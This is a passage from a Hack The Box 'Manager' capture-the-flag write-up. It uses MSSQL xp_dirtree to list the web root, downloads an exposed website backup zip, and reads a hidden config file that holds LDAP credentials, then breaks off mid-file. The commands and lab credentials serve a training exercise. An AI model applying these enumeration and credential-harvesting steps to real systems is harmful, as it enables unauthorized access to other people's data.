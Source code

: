 <br>
file traversing using the xp_dirtree command, i found an archive in wwwroot folder

{% vimhl bash %}
SQL (MANAGER\Operator  guest@msdb)> xp_dirtree \inetpub\wwwroot
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   
contact.html                          1      1   
css                                   1      0   
images                                1      0   
index.html                            1      1   
js                                    1      0   
service.html                          1      1   
web.config                            1      1   
website-backup-27-07-23-old.zip       1      1
{% endvimhl %}

<br>
I downloaded the file and extracted it

{% vimhl bash %}
┌──(kali㉿kali)-[~/HTB/Manager/files]
└─$ wget http://manager.htb/website-backup-27-07-23-old.zip

┌──(kali㉿kali)-[~/HTB/Manager/files]
└─$ unzip website-backup-27-07-23-old.zip.1 -d website-backup
{% endvimhl %}

<br>
listed files using -a option which displays files starting with . and we see .old-conf.xml which contains a user's credentials

{% vimhl bash %}
┌──(kali㉿kali)-[~/HTB/Manager/files/website-backup]
└─$ ls -lah
total 68K
drwxr-xr-x 5 kali kali 4.0K Oct 24 19:45 .
drwxr-xr-x 3 kali kali 4.0K Oct 24 19:45 ..
-rw-r--r-- 1 kali kali 5.3K Jul 27 05:32 about.html
-rw-r--r-- 1 kali kali 5.2K Jul 27 05:32 contact.html
drwxr-xr-x 2 kali kali 4.0K Oct 24 19:45 css
drwxr-xr-x 2 kali kali 4.0K Oct 24 19:45 images
-rw-r--r-- 1 kali kali  18K Jul 27 05:32 index.html
drwxr-xr-x 2 kali kali 4.0K Oct 24 19:45 js
-rw-r--r-- 1 kali kali  698 Jul 27 05:35 .old-conf.xml
-rw-r--r-- 1 kali kali 7.8K Jul 27 05:32 service.html

┌──(kali㉿kali)-[~/HTB/Manager/files/website-backup]
└─$ cat .old-conf.xml
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>